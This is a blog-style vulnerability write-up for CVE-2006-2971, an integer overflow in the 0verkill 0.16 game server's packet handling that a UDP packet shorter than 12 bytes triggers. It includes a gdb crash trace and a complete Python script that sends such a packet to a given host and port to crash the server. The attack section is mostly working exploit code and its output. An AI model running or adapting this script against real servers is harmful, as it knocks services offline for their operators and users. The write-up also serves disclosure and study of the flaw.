 ```yaml
---
layout: post
title:  "CVE-2006-2971 – 0verkill - Remote Integer Overflow Crash Exploit"
date:   2006-06-09 00:00:00
categories: security cve
permalink: post/CVE-2006-2971-0verkill-remote-integer-overflow/
---
```


### Vendor

[http://artax.karlin.mff.cuni.cz/~brain/0verkill/][0verkill]

[0verkill]:	http://artax.karlin.mff.cuni.cz/~brain/0verkill/	"0verkill"

> 0verkill is bloody 2D action deathmatch-like game in ASCII-ART running under Linux, OS/2 and Windows.

### Description

A `Integer Overflow` vulnerability of the **recv_packet** function in `0verkill 0.16` allows remote attackers to cause a Denial of Service via a UDP packet with fewer than 12 bytes, which results in a long length value to the crc32 function.

### Debug with gdb

{% highlight bash %}
(gdb) run
Starting program: /home/federico/0verkill-0.16/server
9. 6.2006 14:18:07  Running 0verkill server version 0.16
9. 6.2006 14:18:07  Initialization.
9. 6.2006 14:18:07  Loading sprites.
9. 6.2006 14:18:07  Loading level "level1"....
9. 6.2006 14:18:07  Loading level graphics.
9. 6.2006 14:18:08  Loading level map.
9. 6.2006 14:18:08  Loading level objects.
9. 6.2006 14:18:08  Initializing socket.
9. 6.2006 14:18:08  Installing signal handlers.
9. 6.2006 14:18:08  Game started.
9. 6.2006 14:18:08  Sleep
9. 6.2006 14:18:10  Wakeup

(run python f_0k-0.6.py localhost 65525)

Program received signal SIGSEGV, Segmentation fault.
crc32 (buf=0x837a000 <Address 0x837a000 out of bounds>, len=4294967288) at crc32.c:82
warning: Source file is more recent than executable.
82            DO8(buf);
#
#0  0x0805b54a in recv_packet (packet=0x805fd20 "",
max_len=256, addr=0xf18df475, addr_len=0xf18df475, sender_server=0, recipient=0,
sender=0xbfcf6d54) at net.c:94
94              if (crc!=crc32(packet,retval-12))return -1;
#

# limits byte receive is 12, if you send an inferior number of it the game crash.
{% endhighlight %}

### Denial of service code snippet

{% highlight python %}
#!/usr/bin/env python

import os, sys
from socket import *

usage = "run: python %s [remote_addr] [remote_port] " % os.path.basename(sys.argv[0])

if len(sys.argv) < 3:
    print usage
    sys.exit()

host = sys.argv[1]
port = int(sys.argv[2])

sock = socket(AF_INET, SOCK_DGRAM)
sock.connect((host, port))

print "connecting.. ",
if sock > 0:
    print "done!"
else:
    print "wrong!"

print "crashing the server.. ",
if sock.sendto('0x00' , (host, port)):
    print "done!"
else:
    print "wrong!"

print "wait five seconds, if no data found press CTRL+C"
try:
    reply = sock.recvfrom(512)
    print reply
except:
    print "no data receive!"
    sys.exit()
{% endhighlight %}

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971][mitre]
* [http://www.securityfocus.com/bid/18353][securityfocus]
* [http://www.osvdb.org/26029][osvdb]
* [http://secunia.com/advisories/20551][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971 "CVE-2006-2971"
[securityfocus]:	http://www.securityfocus.com/bid/18353						"SecurityFocus-18353"
[osvdb]:			http://www.osvdb.org/26029									"OSVDB-26029"
[secunia]:			http://secunia.com/advisories/20551							"Secunia-20551"